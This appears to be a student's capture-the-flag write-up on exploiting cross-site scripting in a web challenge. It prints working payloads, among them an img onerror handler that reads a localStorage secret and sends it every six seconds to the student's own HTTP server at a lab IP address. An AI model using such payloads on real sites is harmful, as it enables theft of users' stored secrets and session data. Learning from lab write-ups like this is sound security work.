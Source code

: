 - First, I used console.log to test it out. The payload was `<script> console.log(localStorage.getItem('secret'));</script>`
- It didn't work. It was mentioned in the class saying innerHTML block it not Vue.js.
- Second, I tried. <img src=x onerror="console.log(localStorage.getItem('secret'))">. It worked. But it was showing "nottherealsecret". This is the default value the hint mentioned. From the hint once I made change to the name, at least 6 seconds to allow changes be made.
- <img width="1303" height="690" alt="Screenshot from 2025-09-28 15-35-16" src="https://github.com/user-attachments/assets/1c55b305-cb2e-40f5-a1b3-09e91c49d0b6" />

# THEN IN THE NEXT TWO HOURS I WAS TRYING TO FIGURE OUT WHY I COULDN'T SEND THE SECRET TO CONSOLE.LOG(). 

- I found out others was sending the secret to own http.server. I followed the same and setup a simple server in kali: `python3 -m http.server 4444`
- Then used this payload: `<img src=x onerror="setInterval(() => {
   var secret = localStorage.getItem('secret');
   new Image().src = 'http://10.11.139.184:4444/?secret=' + encodeURIComponent(secret);
   console.log(secret);
}, 6000);">`
- the required data/secret was extracted successfully:
  <img width="1911" height="945" alt="image" src="https://github.com/user-attachments/assets/3662bd54-cca7-4859-8346-5389c1982aa3" />
- To get the flag the remaining was straight forward. Since the secret was a client-side measurement. One only need to change the secret under "Storage" and delete the data manually to get the flag.
- <img width="1129" height="461" alt="image" src="https://github.com/user-attachments/assets/0a9fc979-cfd3-4bda-9dc2-125ffe9bfe50" />

- 

  
